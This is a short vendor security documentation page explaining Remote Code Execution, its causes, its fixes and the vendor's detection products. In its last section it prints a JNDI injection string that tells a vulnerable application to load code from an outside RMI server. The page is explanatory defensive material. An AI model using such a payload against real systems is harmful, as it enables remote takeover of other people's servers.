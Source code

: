 ```yaml
---
title: Remote Code Execution (RCE)
---
```


## What is Remote Code Execution (RCE)

Remote Code Execution occurs when a remote attacker can cause your application to reach out to another source to obtain instructions, often either a script or binary.

RCE is a common name that overlaps with similar vulnerability categories like [deserialization](deserialization.md)

## When can RCE affect my application

Remote Code Execution is commonly found in utilities where software engages remote code or allows items to be loaded. Common occurrences are often around Remote Method Invocation or dynamic loading utilities.

## How do I know if/where my application has an RCE vulnerability

Contrast Assess monitors execution and can detect Remote Code Execution vulnerabilities.

Contrast Protect can defend Remote Code Execution vulnerabilities.

## How do I fix RCE

Developers should avoid frameworks that dynamically load remote code. Operators should harden an environment, preventing it from reaching out to remote sources outside its network or VPC.

## How do people attack RCE flaws
Attackers often inject Strings into applications that can be interpreted as something to load and run.

```
${jndi:rmi://192.168.2.106:1099/vccvhr}
```